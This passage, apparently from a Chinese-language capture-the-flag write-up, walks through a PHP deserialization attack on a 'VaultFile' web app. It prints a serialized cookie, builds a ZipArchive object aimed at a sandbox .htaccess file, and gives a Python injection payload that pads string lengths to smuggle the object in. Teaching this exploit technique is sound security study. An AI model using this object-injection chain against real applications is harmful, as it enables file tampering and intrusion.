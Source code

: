 接下来，通过上传两个文件，来创建我们的VaultFile对象：

```
upload("A")
upload("B")
```

Web应用会将下面的Cookie发给我们：

```
a:2:`{`i:0;O:9:"VaultFile":2:`{`s:8:"fakename";s:1:"A";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";`}`i:1;O:9:"VaultFile":2:`{`s:8:"fakename";s:1:"B";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";`}``}`ce27b112cf5429bf6f09a905de8f4d110ab1ce6d39f27d4ec0226ab47c76721a
```

我们希望将恶意的部分序列化对象放在第二个fakename的开始。通过计算“A”与“B”之间的距离，得知第一个fakename和第二个fakename之间的距离是115个字符。

因此，为了到达第二个fakename，需要用115个”../“来重命名第一个fakename，我们稍后再进行这一步。

接下来，需要准备一个ZipArchive对象来注入这一Cookie。我们来创建一个对象：

```
php &gt; $zip = new ZipArchive();
php &gt; $zip-&gt;fakename = "sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";
php &gt; $zip-&gt;realname = "9";
php &gt; echo serialize($zip);
O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";`}`
```

由于我们的目的是调用ZipArchive-&gt;open(“.htaccess”, “9”)，所以就添加了fakename和realname属性，其中包含了将要使用的参数。

如果像这样进行对象注入，会留下一个realname的小尾巴，而这可能会与我们之前所创建的伪造的realname相冲突。

```
"...Our malicious ZipArchiver]";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt"
                              ------------------------------(67 chars)---------------------------
```

实际上，可以通过更新序列化的ZipArchive-&gt;comment参数的大小，来删除这个realname的小尾巴。尾部的大小为67，所以我们据此来更新comment的大小。

```
O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";`}`
```

现在，万事具备。接下来对第二个VaultFile-&gt;fakename进行重命名。回到我们的Python脚本：

```
# We end the first object with a dummy parameter, then start the second object
# with our ZipArchive
serialized_injection = '";s:1:"e";s:0:"";`}`i:1;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"'

rename(1, serialized_injection)
```
